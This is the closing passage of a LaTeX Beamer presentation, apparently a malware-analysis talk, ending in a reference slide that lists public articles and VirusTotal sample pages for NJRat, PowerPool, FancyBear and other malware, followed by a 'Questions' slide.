\end{frame}

\begin{frame}
  \frametitle{References}
  \begin{center}
    \begin{itemize}
    \item{\href{https://en.wikipedia.org/wiki/Main_Page}{Wikipedia}}
    \item{\href{https://ti.360.net/blog/articles/analysis-of-apt-c-27/}{NJRat Article}}
    \item{\href{https://www.virustotal.com/\#/file/0a9c88d03260b92608c9c079a1b449cf46e5cd764f12f2ec852038dd6bd0fa97/detection}{NJRat Sample}}
    \item{\href{https://www.virustotal.com/\#/file/4e51a6779a7776055ebdeffe28d00e8866b2e722e3ccb6cba868cf8cdc86b1a3/detection}{NJRat Unpacked Sample}}
    \item{\href{http://sfkino.tistory.com/70}{Alibaba Malware Article}}
    \item{\href{https://www.virustotal.com/\#/file/d057088d0de3d920ea0939217c756274018b6e89cbfc74f66f50a9d27a384b09/detection}{Alibaba Malware Sample}}
    \item{\href{https://www.welivesecurity.com/2018/09/05/powerpool-malware-exploits-zero-day-vulnerability/}{PowerPool Malware Article}}
    \item{\href{https://www.virustotal.com/\#/file/58a50840c04cd15f439f1cc1b684e9f9fa22c0d64f44a391d9e2b1222e5cd6bd/details}{PowerPool Malware Sample}}
    \item{\href{https://www.virustotal.com/\#/file/9c08136b26ee5234c61a5d9e5a17afb15da35efc66514d2df5b53178693644c5/detection}{PowerPool Malware Sample Patched Version}}
    \item{\href{https://www.symantec.com/security-center/writeup/2018-092116-1134-99?om_rssid=sr-latestthreats30days\#technicaldescription}{FancyBear APT Article}}
    \item{\href{https://www.virustotal.com/\#/file/a37eda810ca92486bfb0e1f1b27adb7c9df57aafab686c000ae1d6ec5d6f6180/detection}{FancyBear APT Sample}}
    \item{\href{https://www.virustotal.com/\#/file/90e7c99effc7e4360c45a2af7ca9cc23313902a40c30d48cac8db048e9e4c0f6/detection}{FancyBear APT Unpacked .NET Assembly}}
    \end{itemize}
  \end{center}
\end{frame}

\begin{frame}
  \frametitle{Questions}
  \begin{center}
    \includegraphics[width=12cm,keepaspectratio]{thank_you}
  \end{center}
\end{frame}

\end{document}